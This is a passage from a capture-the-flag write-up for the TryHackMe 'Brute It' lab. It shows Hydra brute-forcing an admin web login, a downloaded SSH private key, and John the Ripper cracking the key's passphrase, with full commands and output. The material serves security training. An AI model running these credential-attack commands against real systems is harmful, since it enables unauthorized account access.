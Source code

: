`/admin`

[view-source:http://10.10.16.131/admin/](view-source:http://10.10.16.131/admin/)

```html
<!-- Hey john, if you do not remember, the username is admin -->
```

```
kali@kali:~/CTFs/tryhackme/Brute It$ hydra -l admin -P /usr/share/wordlists/rockyou.txt 10.10.16.131 http-post-form "/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid" -f
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-11-14 20:55:53
[DATA] max 16 tasks per 1 server, overall 16 tasks, 14344399 login tries (l:1/p:14344399), ~896525 tries per task
[DATA] attacking http-post-form://10.10.16.131:80/admin/index.php:user=^USER^&pass=^PASS^:Username or password invalid
[80][http-post-form] host: 10.10.16.131   login: admin   password: xavier
[STATUS] attack finished for 10.10.16.131 (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-11-14 20:56:09
```

```

Hello john, finish the development of the site, here's your RSA private key.


THM{brut3_f0rce_is_e4sy}
```

```
kali@kali:~/CTFs/tryhackme/Brute It$ wget http://10.10.16.131/admin/panel/id_rsa
--2020-11-14 20:56:51--  http://10.10.16.131/admin/panel/id_rsa
Connecting to 10.10.16.131:80... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1766 (1.7K)
Saving to: ‘id_rsa’

id_rsa                                           100%[=======================================================================================================>]   1.72K  --.-KB/s    in 0s

2020-11-14 20:56:51 (162 MB/s) - ‘id_rsa’ saved [1766/1766]

kali@kali:~/CTFs/tryhackme/Brute It$ chmod 600 id_rsa
kali@kali:~/CTFs/tryhackme/Brute It$ ssh -i id_rsa john@10.10.16.131
The authenticity of host '10.10.16.131 (10.10.16.131)' can't be established.
ECDSA key fingerprint is SHA256:6/bVnMDQ46C+aRgroR5KUwqKM6J9jAfSYFMQIOKckug.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '10.10.16.131' (ECDSA) to the list of known hosts.
Enter passphrase for key 'id_rsa':

kali@kali:~/CTFs/tryhackme/Brute It$ /usr/share/john/ssh2john.py id_rsa > id_rsa.hash
kali@kali:~/CTFs/tryhackme/Brute It$ john --wordlist=/usr/share/wordlists/rockyou.txt id_rsa.hash
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
rockinroll       (id_rsa)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:06 DONE (2020-11-14 21:07) 0.1466g/s 2102Kp/s 2102Kc/s 2102KC/sa6_123..*7¡Vamos!
```